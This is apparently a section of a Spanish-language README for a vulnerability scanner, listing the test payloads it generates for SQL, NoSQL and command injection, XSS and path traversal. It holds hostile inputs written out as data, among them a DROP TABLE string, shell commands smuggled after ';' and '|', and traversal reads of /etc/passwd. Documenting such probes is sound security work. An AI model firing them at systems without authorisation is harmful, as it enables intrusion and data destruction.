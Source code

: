 
## 🔍 Tipos de Vulnerabilidades Detectables

### **1. Injection Attacks**

#### **SQL Injection:**

```sql
-- Payloads de prueba generados
'; DROP TABLE users; --
' OR '1'='1
' UNION SELECT password FROM admin_users --
```

#### **NoSQL Injection:**

```javascript
// MongoDB injection payloads
{"$ne": null}
{"$gt": ""}
{"$where": "this.password.length > 0"}
```

#### **Command Injection:**

```bash
# OS command injection payloads
; ls -la
| cat /etc/passwd
&& whoami
```

### **2. Cross-Site Scripting (XSS)**

#### **Reflected XSS:**

```html
<script>alert('XSS')</script>
<img src=x onerror=alert('XSS')>
javascript:alert('XSS')
```

#### **Stored XSS:**

```html
<svg onload=alert('Stored XSS')>
<iframe src="javascript:alert('XSS')">
```

### **3. Path Traversal**

#### **Directory Traversal:**

```
../../../etc/passwd
..\..\..\..\windows\system32\drivers\etc\hosts
....//....//....//etc/passwd
```
